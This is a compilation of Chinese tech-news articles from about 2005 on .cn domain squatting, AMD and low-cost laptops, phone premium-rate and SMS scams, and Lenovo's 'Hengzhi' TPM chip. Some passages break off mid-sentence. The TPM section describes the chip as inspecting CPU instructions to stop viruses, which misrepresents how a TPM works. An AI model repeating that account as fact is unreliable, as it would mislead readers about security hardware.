事实上，一个靠抢注域名一夜暴富的神话正在上演。搜索巨头Google动用百万美元赎回国家顶级域名google.cn及google.com.cn，域名持有者北京国网信息有限公司用一个注册费只有百十元的域名一夜之间换取了百万元金。航运在线归属企业大连成兰德集团出20万元买回了与网站命名完全一致的sol.com.cn域名。据公司负责人蔡先生介绍，5年前公司成立时选择.com域名，但在.com域名体系下没有选到合适的域名，只能选择了sol-china.com的域名，并沿用了4年多。但随着公司由纯粹的航运类B2B的电子商务模式逐渐向B2B、B2C相结合的方向发展，网上业务和国际业务的越来越多，原域名冗长、难记的弊端渐渐显露，并且与公司立足国内面向全球的定位不大符合。于是，公司决定改用更为简短易记、更贴近网站名称和业务的域名。考虑到.cn域名是带有中国标识的国际域名，启用.cn域名，能让合作伙伴在互联网上轻易、准确地找到我们。于是，公司不惜耗资20万委托域名网购买了与网站命名完全一致的sol.com.cn域名。上海某著名大型企业的.com域名早在两年前就被美国人抢注了，但今日其.cn域名也落入他人之手。调查同时发现，上海多数企业仅仅注册了一个.cn域名，如此单薄的域名防御体系给予了抢注者可乘之机。如著名的自行车品牌凤凰，注册了pheonix.com.cn，却忽略了pheonix.cn，导致后者被抢注。著名内衣品牌三枪、古今和东风汽车等都面临着同样的困境。等企业意识到问题的严重性了，也就让域名抢注者得了逞。

## 谁在抢注.cn域名？

把眼光盯准.cn国家顶级域名的不光是有需要的企业。目前，由于中国国家顶级域名.cn的注册门槛降低，用户只需要以非个人的名义就可以注册，而对于有潜力的域名，低廉的注册费用就能带来高额回报，这使得众多的投资者把目光集中到了.cn域名买卖上。“玉米”是“域名”的趣称，注册域名被网虫们叫做“煮玉米”，这一行业的人也就自然而然地成了“玉米虫”。“玉米虫”首先是“网虫”，他们是一群网络投机者，几乎每天挂在网上，穿梭于域名交易网或讨论区，搜寻还没有被注册的好域名，一旦发现了目标，就赶紧在网上实施抢注。北京吉普公司于2003年开始注册并使用jeep.cn域名，注册期两年，截止日期为2005年3月17日。域名注册到期后北京吉普公司没有及时续费。该域名被注销5个小时后被“玉米虫”抢注。有数据显示，目前.cn域名如果没有续费或者因为其他原因被删除，平均会在4分钟之内被他人抢注。在众多域名抢注者中，北京国网信息有限公司显得格外抢眼。在.cn域名注册程序简化后短短的两年内，国网公司先后因域名纠纷与英特艾基系统有限公司、杜邦公司、宝洁公司、劳力士公司对簿公堂。北京国网信息有限责任公司于1996年3月成立，经营范围包括计算机网络咨询在线服务等。以杜邦公司诉北京国网信息有限责任公司计算机网络域名侵权纠纷案为例，1998年11月2日，国网公司在中国互联网络信息中心申请注册了“dupont.com.cn”域名，但一直未实际使用。杜邦公司认为，国网公司没有合法依据，无偿占有杜邦公司所有的驰名商标所能够带来的商业利益，违背了《中华人民共和国民法通则》、《中华人民共和国反不正当竞争法》和巴黎公约中所规定的民事活动中应当遵守的诚实信用原则，构成了对杜邦公司的不正当竞争，应当承担相应的民事责任，包括停止侵权、赔偿杜邦公司为本案诉讼支出的合理费用。然而，随着外资企业越来越看好中国国家顶级域名，我们有理由相信会有更多域名纠纷浮出水面。令记者始料不及的是，这一连串的跨国公司基本上都是以胜诉告终，而此次Google却付了一笔数额不菲的“学费”，难道说“玉米虫”开始时来运转了？

## 防止域名被抢有绝招

- 第一步：.cn主域名必不可少。主域名一般为与企业名称、企业品牌相一致或相关的.cn域名，这是企业在网络上的最主要网络标识。作为中国在世界网络中的身份标识，无论是立足中国面向世界的中国企业，还是志在中国市场的跨国企业，.cn域名都应该引起足够的重视。以.cn域名为主域名的好处就是：一是代表中国身份，无论中国企业还是在华跨国企业，使用.cn域名就代表了服务中国消费者；二是方便国际合作伙伴和潜在客户的搜寻，尤其是对于中国企业来说，使用.cn域名增加了互联网上的商机。
- 第二步：子品牌同样重要。在进行了主域名的应用之外，品牌企业还应该考虑将旗下的产品或子品牌进行全面注册，防止遭到抢注甚至是恶性仿冒。事实上，除了三星之外，目前很多跨国企业也已经开始纷纷将旗下的产品子品牌圈入保护圈内，例如，联合利华就将旗下奥妙(OMO)品牌的.cn域名保护起来，并为此采取了法律手段。
- 第三步：领导名称影响力不可轻视。对于品牌企业而言，企业CEO的称谓与企业名称同样重要，将领导的名字抢先注册，也是防止品牌遭到恶性利用的一种域名保护手段。前段时间中国房产明星SOHO中国巧赎其CEO潘石屹的.cn域名，其用意就在于此。
- 第四步：敌对性词汇不容忽视。目前跨国企业比较流行、也比较全面的做法就是将包含污辱性词汇、敌对性词汇的.cn域名都预先注册，微软等国际巨头便采取了这种保护措施，从而有效地防止了竞争对手或其他恶意利用。
- 第五步：地级.cn域名是最后一道防线。注册相关的地级.cn域名也是近一年来跨国企业通行的域名保护手法，因为在针对地方进行网络营销和宣传时，地级.cn域名可以增强针对性，效果大大提升，因此，很多企业都将.cn域名收入囊中，如松下、大众，更有甚者不惜为此提出诉讼，力争取回。

为什么Google进入中国市场非要抢回它的国家顶级.cn域名呢？难道说单靠一个.com的通用顶级域名不能进入中国市场吗？国内企业在国际化的过程中为什么也把注册国家顶级域名作为头等大事呢？难道.com域名不能保护他们的利益吗？这些都要从顶级域名的管理方式讲起。准确地说，顶级域名分为两类:国家顶级域名(ccTLD)，比如.cn代表中国，jp代表日本;普通类别顶级域名(gTLD)，.com(公司企业),.net(网络服务机构)。在所有顶级域名中，只有.cn域名由我们自己管理。比较常见的.com域名由美国VeriSign公司管理，而在管理各个环节中，域名解析权一项不仅关系到企业切身利益，更关系到国家信息安全。中国互联网络信息中心，作为信息产业部批准的国家顶级域名注册管理机构，负责域名注册管理、域名解析等全部工作。专家认为，国家顶级域名小而言之是企业品牌价值的表现之一，大而言之，关系到国家信息安全。伊拉克战争开始前美国已通过VeriSign这个全球.com、.net注册机构收集分析伊拉克国内使用.com域名网站信息，兵马未动，信息战已首战告捷。国外企业进入中国市场，就必须让中国的百姓放心地访问他们的网站，尤其是像Google这样的信息服务企业，而让中国百姓认可你的办法之一就是在中国“安个家”。国内企业注册.cn顶级域名使企业信息有安全保障，毕竟通过我们自己的技术控制解析过程可以最大限度地保卫企业的信息安全。国内某资深邮件服务商深刻地意识到了企业信息安全的重要性。据知情人士透露，在一次黑客针对性地攻击该服务商域名所在的美国VeriSign域名解析服务器后，该企业.net域名被解析到一个色情网站，但由于到VeriSign申请域名恢复需要一定的周期，况且VeriSign无法在第一时间知道申请者的确切身份，该企业的全部业务不得不瘫痪数天之久，损失上百万元。才避免了将来不可估量的形象与经济损失，才使得企业的品牌知名度更“独”更“优”。

## 专家：投资域名，我们倡导用创意挣钱

企业加强域名保护了，是不是说投资域名的前景就不看好了呢？其实，域名投资和域名抢注还是有本质区别的。从投资者的角度来看，一个域名在没有被注册前，是不存在任何商业价值的；这与企业自身的标识不同，比如联想在国际化的过程中，发现自己的标识 Legend 在很多国家已经被注册，因为该词汇“Legend”是一个客观存在的固定词汇，而在全球范围内启用新标识 Lenovo 的决策可谓是联想人为适应国际竞争作出的一个创举。据记者了解，一位域名投资者因看好 IPTV 的发展前景，不惜花重金将大部分与 IPTV 沾边的顶级域名一次性注册，他所要做的就是等待一个企业看好 IPTV 而需要与之相关的域名的机会，这与抢注一个企业自身的标识是有本质区别的。

业内人士认为，抢注域名并不值得提倡；而创意注册域名则是一种比较理性的注册方式，也是目前比较受欢迎的。据了解，目前的 cn 域名投资者主要有两种类型，一种是抢注国内外的著名品牌；第二种是创意注册，用自己想到的特别好的词语注册。

对此，互联网专家认为投资域名应该理性，抢注知名企业域名只是域名投资的一小部分，主要的还是靠智慧和创意投资。域名投资者抢注 Google 的行为只是特别个案，真正的域名投资是靠眼光发现有价值的名称，实际上发生的交易很少是通过抢注他人的域名来实现的。而从现实的情况来看，抢注名企的 cn 域名也存在着一定的风险，很有可能被企业通过仲裁或诉讼取回，抢注者甚至可能要为此支付赔偿。域名投资最好的方式还是通过智慧和创意来实现。

据了解，注册一个顶级域名花费不到百元，理论上，目前仍有超过 300 万个好 CN 域名没有被注册，看来，现在就成为精明的“玉米虫”还是大有希望的。

## 哪里能找到失效的域名？

- 1. http://www.pool.com 你可以查到最近几天要踢出来的域名
- 2. http://www.snapcheck.com/overview/pending-delete
- 3. http://www.emoon.com/droplist/pending-delete/

要删除域名的世界排名 ( www.alexa.com ), pr 值 ( google 的重要性评估 ) 等等，都可以在这里查询到。

前边说的两个都是英文站点，如果你的英文不大好，就到这里查询吧。

（新闻采访部实习记者 张健）

## AMD 笔记本来袭 福兮？祸兮？

4 月份以来，笔记本厂商忙着推出各种 X999 元的产品，价格从 3999 元到 8999 元不等。厂商忙着促销，也许是为了新财年（国际上流行的财年一般从 4 月开始计算）有个新气象。在众多品牌笔记本产品中，AMD Sempron 和 AMD Turion64 芯片的产品开始显山露水了。记得 1999 年前后，东芝电脑曾大规模推广 AMD 产品，但最终以失败告终，这使得 AMD 芯片的笔记本产品成为了消费者心中永远的痛。消费者一方面想购买低价优质的 AMD 产品，另一方面又担心这次 AMD 笔记本来袭也许又是某些厂商试水之作。记者带着消费者的种种质疑，走进了 NEC 笔记本中国总代理——神州数码 NEC 产品部经理苏毅先生的办公室。

## 引进 AMD 神州数码不试水

神州数码公司（以下简称神码）有业内出名的产品销售渠道，他们依靠遍布全国的服务网络，为各种产品销售和售后服务铺平了道路。从 2004 年起，神码开始代理 NEC 商用和消费类笔记本产品，但始终未引进 AMD 系列。在国内笔记本电脑市场低价风盛行的今天，神码突然将 7999 的 AMD Sempron 产品和 11000 左右的 AMD Turion64 引进中国市场，不由得让消费者觉得他们是在用为数不多的 AMD 产品杀低价，跟进国内这股降价风暴，试水之意可见一斑。然而苏毅先生却断然否定了记者的假设。

“其实按照 NEC 在日本的销售状况来讲，AMD 产品大概要占到它 30% 的份额。所以虽然在中国市场 AMD 没有很大认同度，但我们对市场份额的估计是至少 20%。就是在 NEC 的产品线里头至少要做到 20% 的 AMD 产品占有率。AMD 的消费相对是理性的，否则联想也不会把它消费类的台式机做成 AMD 的，而且我们内部了解到的是，联想 AMD 台式机占消费类电脑的 70%，这证明 AMD 实际上还是有很大市场的。我们了解到宏基、华硕这些品牌都会来做 AMD 这个市场。尤其像宏基，前阶段已经推过了 AMD 产品，而它在欧洲市场和美国市场也是依靠 AMD 产品取得成功的。所以大家这段时间也会去关注宏基这个品牌，也正因为我们觉得 AMD 是一个趋势，我们不会是一个简单试试的心理。”

实际上，早在 1999 年前后，东芝电脑曾经力推 AMD 笔记本，但最后还是失败了。此后，一直没有一线大厂再动过 AMD 这条产品线的想法。AMD 在消费者心中一直就是 DIY 的象征，消费者认同 AMD 更多的是因为它代表了低价，代表了一种与 Intel 抗争的精神。然而，时代不同了，消费者的消费观念也在发生变化。

## 选 AMD 笔记本 福兮？

在北京鼎好电脑城，记者见到了来此选购笔记本电脑的王先生。

买笔记本，您会选择 AMD 芯片的吗？

王先生：听说 AMD 推出了 64 位芯片的笔记本，我倒是很想看一下性能如何。而且，像我们做教师的买电脑够用最重要，至于芯片什么的，性能差不多，主要还是要考虑价格。

您理想中的 AMD 笔记本价位应该在多少？

王先生：我觉得应该比性能差不多的迅驰笔记本便宜得多吧。否则我不知道 AMD 的优势到底在哪儿。

人们都说买电脑的人心里总有一杆秤，您的砝码是价格还是别的？

王先生：我觉得首先要看价格，其次品牌也很重要，一些价格过低的品牌让我们工薪阶层很不放心。

采访中，记者发现，与王先生具有同样担心的消费者不在少数，低价会不会带来品质的下降呢？神码苏毅先生解释说：“比如 7000 元的电脑，你可以选择赛扬的，但赛扬有这样那样的弊端，可能赛扬本身没有弊端，但就是因为成本的降低会带来一些弊端。那么如果你选 AMD 的机器，主屏上或者说性能上、散热上、时间上可能有差异，但可能给你带来某些特点，比如说 NEC 笔记本所独有的亮屏技术，这使得 AMD 的笔记本在这个价位上就具备一定的综合实力和性价比。”

## 选 AMD 笔记本 如何让用户放心？

目前，国内品牌神舟电脑已经推出价格低于 6000 元的 AMD Turion 64 笔记本，一直和 AMD 保持密切合作的紫光电脑也有类似产品上市，据了解，还有几家国内品牌正在与 AMD 谈合作事宜。不过，这其中不乏用与 AMD 合作为由向 Intel 杀价的厂商。如此混乱的 AMD 笔记本局面，让消费者如何才能放心？

也许神码的做法确实让我们看到 AMD 产品线重获新生的机会。借助于全国 10 个神码客服平台和遍布 31 个省市的 46 家维修站，神码欲将售后进行到底。不过，神码毕竟具有多年代理国外品牌的经验，对于价格更低的国产 AMD 笔记本，我们希望能做得同样好。

（新闻采访部实习记者 张健）

## 透视笔记本市场的低价混水

在国内市场，低价策略向来是提高市场份额、打压竞争对手的“灵丹妙药”。曾几何时，一向高高在上的笔记本电脑价格竟然也似雪崩般地倾泻而下，早些年动辄两三万元人民币的价位，现在已然被 4999 元甚至 3999 元的价格冲得烟消云散。一些国内厂商抱着“为有低价多壮志，敢叫日月换新天”的气势，一再将笔记本电脑定价探底，有的已经公开宣称要推出 2999 元的产品。从最开始的淘汰产品、换代产品，到目前的新规格产品，大有一步到位，为了消费者利益舍我其谁的境界。然而厂商果真是站在消费者的立场，像他们所宣称的那样让利于民甚至赔本赚吆喝吗？综观低价笔记本电脑市场，不能一棍子全打死，但也只能用“鱼龙混杂”来形容。按说推出低价位产品，像 DELL、HP 这样的大厂商最有资格，道理很简单，产量越高，成本越被摊薄，定价也就越有下降空间。那么目前市场上的一些二、三流厂商为什么产品定价动辄比这些大厂商还要低几千元呢？难道他们有既保持高品质又能降低价格的绝招？其实不然，为了降低成本，一些厂商无所不用其极，甚至极大牺牲了消费者的利益，那么隐藏在产品的低价格和亮丽外观下的黑幕究竟在什么地方？消费者经常遇到的陷阱有哪些？且看厂商的常用伎俩。

## 浑水摸鱼

买笔记本电脑的朋友大多不是内行，一般看看外观，问问主要配置，再比比价格也就基本决定了。而笔记本电脑生产厂商正是利用消费者的模糊概念搞猫儿腻。

比如说液晶显示屏，同样尺寸的屏幕，在分辨率、亮度、对比度、可视角度、坏点数量等重要参数上却存在着很大差异，这些差异最终都体现在价格上，一级品和二级品一般相差近一百美元。一些厂商会使用质量比较差的液晶显示屏糊弄消费者，因此大家在购买笔记本电脑时可以通过货比三家来判断大部分参数的高低，但坏点数量商家是不会告诉你的，购买时可以找一个懂行的人把屏幕调整到全黑和全白状态数数就知道了。

CPU 也是一些厂商“挖掘”成本潜力的主要对象。比如采用综合性能差一些但价格低廉的 AMD、VIA 或全美达 CPU 来替代 Intel 的 CPU。甚至还有厂商将发热量很大的台式 CPU 移植进来，也许消费者在使用中总是遇到不明原因死机的情况时，不会意识到是不符合标准的 CPU 在作祟。一些草台班子厂商使用赛扬-M 甚至 P4-M CPU 来冒充迅驰技术的现象也并不鲜见。

芯片组的使用也颇有讲究，稍有常识的人都知道，采用 Intel 的 CPU，配以 Intel 的芯片组要比兼容芯片组更稳定和高效，而厂商们出于节约成本的考虑，会把 Intel 原装的芯片组换成 VIA、SiS、ALi 生产的兼容芯片组。

显卡和声卡是另一个重灾区，一些厂商采用性能相当差的集成芯片来应付，并且使用劣质喇叭，导致图像显示和声音播放品质实在不敢恭维，并且成为整体性能的瓶颈甚至严重影响使用。因此购买时尽量选择配置独立显卡的产品，声音要亲耳听一听，对于键盘也是能简化则简化。有人问了，键盘不就那几十个键，有什么大不了的，其实此言大谬。键盘是直接关系到人体健康的部件，好的键盘融入了人体工程学设计，布局合理，触感舒适，对手指手腕有一定的保护作用，而很多低价笔记本电脑使用的键盘空间局促，键帽参差不齐，触感生硬涩滞，不但影响工作效率，而且有害手部健康。一些低价笔记本在售后服务承诺上也是玩弄文字游戏，比如虽然免费保修一年却还要收取高额服务费，三年质保却并非免费等，其中陷阱让消费者防不胜防。此外，一些厂商的维修部门推诿扯皮甚至玩儿失踪的现象也屡见不鲜。低价电脑的故障率偏高是公开的秘密，因此弄清售后服务细节也是不可忽略的大事。

## 偷梁换柱

俗话说，人要脸树要皮，品质好的笔记本电脑在外壳用料上非常讲究，坚固度、触感、光泽、散热、重量等指标都有严格的控制，而一些低价笔记本电脑则为了降低成本而选择质地比较差的材质加工成外壳，抗压性差，用手指按压有变形的现象；做工粗糙，透过连接部位的缝隙甚至可以看到内部；光泽暗淡，整体看上去有陈旧的感觉。

硬盘和内存也有可‘挤水’余地。IBM硬盘要比富士通的贵，原装内存要比兼容内存贵，高等级货要比低等级货贵，那么选择时自然一律是后者。更有甚者会弄个20GB的低速硬盘，128MB的低规格内存武装笔记本电脑，那么即便你有一颗澎湃的心，如若四肢残疾，又怎能奔腾起来？另外，对于网卡控制芯片、BIOS芯片、数据排线等组件，一些厂商也是尽可能地选择低档次的充数，反正消费者也看不出来。

## 瞒天过海

很多低价笔记本电脑还会在电池和板卡的元器件上‘下功夫’。低价笔记本电脑的电池持续使用时间偏短，使用寿命偏低是一个不争的事实，即便是采用迅驰技术的笔记本电脑，电池的持续使用时间也大大短于高端产品。为了节省成本，厂商不惜牺牲产品的移动性能，可以想见，一台不能持续工作2小时以上的笔记本电脑和一台台式电脑有什么根本区别，移动的特点从何体现？提起电容、电阻这些名词也许让很多人头大，但大量的低价笔记本电脑正是在这些不为人知的细节处大做手脚，以小换大，以次充好，够用就行，不预留量，别看这些元件不起眼，可累积起来也是不小的价格，偷工减料所带来的危害甚大，很多莫名其妙的故障都是由此引起。

## 借尸还魂

低价笔记本电脑厂商降低成本还有一个常用的手段，那就是使用别人的模具。众所周知，笔记本电脑的开模费用动辄几百万、上千万，一些二、三线厂商根本无力承受，那么‘借’用别人现成的模具就成了捷径，君不见市场上的很多产品外形如同孪生吗？而使用别人的模具装入自己的‘内脏’，‘排异’反应就在所难免了，大厂商的技术水平高还好控制，小厂商可就只能对付了事了，你说这品质能好得了吗！更有甚者，把曾经积压的移动PC加上电池和常用配置堂而皇之地出现在了市场上，明目张胆地骗人。

## 釜底抽薪

按说在低价笔记本上玩了上述‘阴’招后也应该见‘好’就收了，可一些厂商们却得寸进尺，干脆连外面也要‘整容’。最常见的手段就是省略笔记本电脑的外接端口，除了USB接口、网卡接口，MODEM接口以外，其他端口大多莫名其妙的消失了，比如说读卡器，1394端口，红外和S端子，有的产品甚至连最基本的PCMCIA扩展端口都敢‘下岗’，如果消费者买了这样的笔记本电脑，基本上就属于与外界‘隔离’了。再有就是笔记本电脑‘裸奔’，搞‘人体艺术’，君不见市场上充斥着大量不装操作系统和应用软件的低价笔记本电脑吗！毕竟软件也是一笔不小的费用啊(盗版除外)。玩得更彻底的还有不提供说明书或者说明书改成说明‘页’的；驱动程序不给，让去网站上下载的，或者虽然提供但只提供Windows XP的。如果消费者不是一个电脑内行，肯定会被折腾得晕头转向，无所适从。也许揭露了一些低价笔记本的不光彩手段，厂商很生气，但如果不能取信于消费者，则后果很严重。买者擦亮眼；卖者摆正心，希望这篇文章能够起到些作用。（北京 点晴）

## 警惕手机抢钱

如果一个人在光天化日之下明目张胆地抢钱，那他离牢房就不远了！现在就有那么一批人在这么干，并且日复一日！

你别说，人家还是低风险，高收益，很少被“拿下”。各位看客也许糊涂了，谁这么牛，抢了钱还能逍遥法外？呵呵，接着往下看你就明白了。

手机，这种“远隔千里也能声在耳前”的现代化通讯工具真是奇妙，就这么一个巴掌大小的玩意，竟然把诺大世界浓缩得近在咫尺。扯一句哲学：事物总有正反两面性，有利就有弊。同样是用手机，有人用它办正事，也有人拿它发歪财，这一歪就歪到和抢差不多了，这时候的手机，那真和“手雷”有得一拼了。我相信，每一位看客都至少接过如下几招中的一招。

## 来电抢钱

什么？来个电话就能把钱抢走？你还别不信，人家就是给你的手机拨个电话，你的钱也许就被“抢”到别人兜里了。最近就有不少的手机用户反映，有时候接到的电话只响一两声，还没等你接呢就挂断了，一看号码还挺陌生，不回吧，要么怕丢了生意，要么怕耽误事情，总之多半会照着来电显示的号码打过去，对方接电话可麻利极了，随后你遭遇的情况无非就是以下几种。

- ‘喂，喂，喂！说话呀……你是谁呀？大点声，你说的声音太小，我听不清楚。’ 就在你想搞清楚对方是谁，在说什么的时候，几分钟甚至十几分钟已经过去了，当对方故意含混或压低的嗓音逐渐清晰以后，你才发觉，敢情这是个有偿咨询电话，咨询费极为可观，两三位数的钞票就这么‘改姓’了，更为缺德的是这类电话还经常是国内长途，近日有消息说还有国际长途加入‘抢钱’行列，乖乖，反应要是慢点，也许下个月就喝西北风了。‘我们XX声讯台为答谢新老客户多年来的支持，在近期特别举办了大型回馈活动，您的手机号码中了我公司的二等奖，今后拨打我合号码，将获得100小时的8折服务，谢谢。’ 得，长话费连同信息费，好几块钱没了，就这样你还没什么可说的，当官还不打送礼的呢，人家可是为你，‘好’啊。‘小王啊，好久没见了，现在还好吧？最近忙什么呢？’ 别看这时候的你绞尽脑汁也想不起对方是谁，可一般还不好意思直说，只得先聊着，就在你纳闷的工夫，钱已经被‘抢’走了，等你明白过来其实电话那头的人根本就没见过的时候，人家道个歉也就把电话挂了，啊，原来又是付费电话。你会问了，他怎么会知道我的姓名和电话号码？嘿嘿，网上找吧，卖私人信息的公司一大把，指不定哪家你登记过信息的公司就把你的信息有偿出卖了，通信公司？人才中心？银行？商场？不好说，没证据是要负法律责任的，呵呵。‘尊敬的客户您好；我向您推荐XX公司的产品，这种产品……’ 这时的你很可能要交长途电话费了，而对方还能收到广告投放商的广告宣传费，虽然是没直接将你的钱划过去，可你牺牲金钱，他享受利益，等于还是间接‘抢’了你。为此，笔者分别致电‘中国移动’、‘中国联通’、‘小灵通’和‘中国电信’的服务机构，得到的几乎是千篇一律的回答：‘我们没有权力去直接注销这些电话，如果您确实受到了侵害，可以向公安机关举报，一经查实，我们会采取措施。’ 看来，针对这样的‘抢钱’行为，有关部门在立法上还存在缺失，让一些居心不良的人钻了法律的空子，所以目前想指望通信公司来为客户主持公道实在是难上加难了，难道真的无计可施了吗？也不尽然，求人不如求己，提高警惕是最有效的手段，比如说，这些号码大都是特殊服务号码，除去区号外，一般会以168或968开头，当看到这样的未接来电时，不要回复，另外，对于陌生的未接来电，能不回的尽量不回，以免受骗。

## 来信抢钱

以前我们介绍过，短信服务商不经过用户同意，直接将用户的手机号码加入短信服务列表，强行收取信息费，并且设置退订障碍，让用户难以解脱。随着监管手段的逐步严厉，明确规定了只有用户发送信息到服务器上进行确认，定制的短信服务才能生效，并且也有了直接退订的服务号码，因此这种明目张胆实施抢钱的行为基本销声匿迹了，但道高一尺，魔高一丈，更隐蔽的手法又出现了，你的手机可能会经常收到下面的短信。

- ‘现在注册，每月可免费发送**条短信。’ 啊，免费的午餐啊，可天上哪里有白白掉馅饼的事情呢，仔细阅读信息你会发现，人家可没说永远免费啊，什么时候你一不留神，人家就开始收费了，等你发现以后，说不定几个月已经过去了，尤其是那些家家直接报销的用户更是难以发现。如果你去投诉他们，他们会说给你发过收费短信，你可能没收到。而且使用这样的短信还可能连累你的同事、家人和朋友，因为你免费发短信给他们时，他们的号码也会被短信服务商记录，只要他们一回复你的短信，短信就会通

## 借刀抢钱

借刀抢钱，借谁的刀？借所谓朋友的刀，朋友通常会让人放松警惕，警惕一放松，挨抢也就很近了。这种方式一般有如下借法。

“兄弟，今天在哪吃饭？”“嗨，今天忙不忙啊？”看了这样的短信，你一定以为是哪个朋友发过来的，回复一句是人之常情。即使你觉得号码陌生，也大都会回一条短信问问对方是谁。只要你回复，不管是什么内容，就订制了某项业务，“抢”了你的钱，你还不知不觉呢。

“不好意思，我不小心在电话簿里把你的手机号码删了，请你再告诉我一下你是谁？”很多人看了这样的短信会回复的，显然，这是“朋友”嘛，那么回复的信息一定又被当作确认服务的信息了。

“好想你啊，自打我们一起来到这个地方，我就天天偷偷关注你，爱在心口难开！我在网上用这个匿名的号码发短信给你，能回复我吗？”千万别信，还是骗局。

预防这种欺骗的措施是不回复，即便要回复，也应先看看号码是不是标准的手机号码。

## 暗地抢钱

暗地抢钱就是暗中搞小动作，让你在无意识的情况下付出“代价”。

一些网站提供了能够免费发送短信的小软件，当用户通过这种软件发送短信时，收到短信的一方会接到短信提示，称“可直接回复此短信”。不过当他直接回复短信时，服务提供商不仅不会提供免费回复，反而会向接收方收取双倍的资费。

有些短信服务商在用户订阅了某种短信服务后，还会悄悄再给用户订制另一些短信以多收服务费，还有些服务商浑水摸鱼，很多短信服务的资费标准是每条0．1元或每月5元。但有些短信在订制过程中偏偏不告知明确的资费标准，导致一些用户不明不白地订制了高价服务，等到发现时已经晚了。更隐蔽的做法是在按某一资费标准收取了一段时间的服务费后擅自涨价，而大部分用户很难察觉。

随着通讯产业的蓬勃发展，手机的普及和应用也会越来越多，如果不从法律制度上及时规范和监督，那么这样“抢钱”的现象也会不断出现，我们希望在用户注意防范的同时，有关部门也能够及时发现问题，解决问题，切实保护用户利益。但愿我们的手机真正成为沟通的桥梁而不再是“抢钱”的帮凶。

（新闻采访部 潘留军）

## 联想之“芯” 护航奥运

两个月前的今天，2005年4月13日，联想推出了一款名为“恒智”的TPM安全芯片。两个月后的某一天，联想还将陆续推出多款基于这块安全芯片的“安全PC”。联想人表示，到2008年奥运会，北京市政府开通电子政务服务的重点部门都将采用联想“安全PC”。他们正在做一件别人做不了的事儿，用“芯”为奥运护航。

## 安全护航从“芯”开始

“保护本机安全，我们要打主动仗”，联想研究院信息安全研究室郎伯伶斩钉截铁地说。

谈到计算机安全，人们首先想到的就是如何预防计算机病毒的侵害。现有的反病毒软件只是一种反病毒的应用程序，通过对已有病毒建立病毒样本库，反病毒软件一旦发现病毒，通过和病毒样本实行匹配，匹配成功后实施查杀。但问题是，遇到突发性病毒程序，反病毒软件往往会根据已有病毒特征进行判断，假如病毒的特征前所未有，这层防线就会被彻底突破，1999年4月26日爆发的CIH病毒就是一例。

“恒智”的TPM安全芯片的工作原理却存在很大不同。当某种破坏性程序开始运行时，该程序不可避免地需要调用CPU资源，CPU的指令经过主板南桥芯片组分解后传输给安全芯片，实际上，位于安全芯片内部的处理器单元立刻会分析这条指令的意图，一经发现异常，就会调用指令采取保护措施，这条指令被返回给CPU后，破坏程序就会被立即中断执行。

然而，联想之“芯”并非只有简单的本机防护功能。确保平台安全是“恒智”的TPM安全芯片的首要责任，实现世界范围内的终端可标示为它在重点行业的应用提供了条件。如果一台电脑拥有世界上惟一的表示方法，在此平台上实施加密工作才能实现。“恒智”正是这样一块芯片。研发工程师郎伯伶女士为记者现场演示了在安全芯片的帮助下生成电子签章的过程。每一块联想之“芯”被固化了惟一的序列号，每一台“安全PC”可以根据此序列号生成惟一的本机密钥，签章程序过程融合了这个密钥，因此生成的电子签章被破解的可能性是微乎其微的。

## 联想之“芯”捍卫信息安全

继联想4月12日推出“恒智”安全芯片后，国际品牌惠普立刻推出了选配TPM安全芯片的电脑，但很快又终止了该产品在国内的销售。对于国外厂商能不能在产品中内置TPM安全芯片的问题，政府部门的态度相当明确。“TPM芯片的特殊在于，它使用的密钥算法是属于商用密码。而商用密码算法属于国家秘密。”国家商用密码管理办公室副主任强志军女士告诉记者。

按照WTO有关约定，国家信息安全属于国家主权，不受WTO协议制约。在联想之“芯”的近两年的研发过程中，参与研发人员超过百人，该芯片从设计到生产，拥有20多个技术专利保护。由于该产品属于密码产品，在研发过程中也得到了国家商用密码管理委员会的大力支持。

联想研究院系统安全研究室副主任王京旭认为，在电子政务、电子商务广泛应用的今天，国家迫切要求系统研究人员能够解决电脑基础架构方面信息防护能力不足的问题。到北京2008年奥运会前，政府有关部门和国家重点部门将有步骤地采用联想之“芯”。

## 从安全之“芯”到“安全PC”标准

前不久，联想在京展示了第一台基于自主研发安全芯片的国产安全PC开天M400S，这是联想继4月11日在国内率先发布自主研发的被誉为“恒智”安全芯片之后，在可信计算领域取得的又一里程碑突破。然而，联想人并没有停住前进的脚步。

从2003年立项，加入TCG（目前国际上比较强势的一个可信计算标准联盟）组织，联想开始了安全芯片的开发工作，在长达两年的研发阶段，2003年年底进行模块开发和论证，2004年对模块进行整合，然后进行系统的验证，在2004年11月份完成后端，2005年2月1日完全流片回来，三天之后这个芯片第一次加电成功。“恒智”芯片采用了SOC整体设计，内置32位处理器，采用0.25微米技术，达到了国际先进水平。IDC的预测是，未来装置TPM芯片的安全PC在2007年就将达到新售PC的70%。

联想凭借国际化的市场宣传能力，加之国家有关部门的强力支持，相信下一阶段的工作重点将是结合批量上市的产品，配合国家标准委员会一同制定首个“安全PC”国家标准。

（张健）

2004年3月15日，逃亡60多天的公安部A级通缉犯马家爵在海南三亚落网。他做梦也不会想到，帮助刑侦人员锁定他藏匿地点的竟是一款计算机软件。先进的技术侦察手段，加上尚处起步的法规制度，便勾勒出了破获马家爵案件的关键技术—计算机犯罪取证技术的现状。

## 英雄大会道“计算机取证”三大顽症

2005年6月26日，IT江湖中的一群以安天下为己任的有识之士擎起一面写有“计算机犯罪取证”的信息安全大旗，将各门派的取证技术高手、法学精英及相关专家汇聚京城。在如今这个利用计算机和网络，或以计算机和网络作为攻击目标的犯罪活动日益猖獗的混沌江湖中，本次由CFAT(中国计算机取证体系架构组)广招天下豪杰而发起的，名为“中国计算机取证技术峰会”的英雄大会，旨在推动国内外计算机取证先进技术的传播、推广技术经验和扩大研究交流的深度广度，从而替天行道，除暴安良。

## 马家爵案:计算机取证者的漂亮仗

说到“计算机取证”，不少人会联想到那些好莱坞大片：无论是入侵瑞士银行电脑系统瞬间窃取数亿美元的网络大盗，还是悄无声息地控制了五角大楼电子安全系统的恐怖分子，顶尖的安全技术人员从未停止过与他们斗智斗勇。当我们退离令人目眩神迷的光影世界，而把目光投注于现实，却发现真实的案件更惊心动魄。

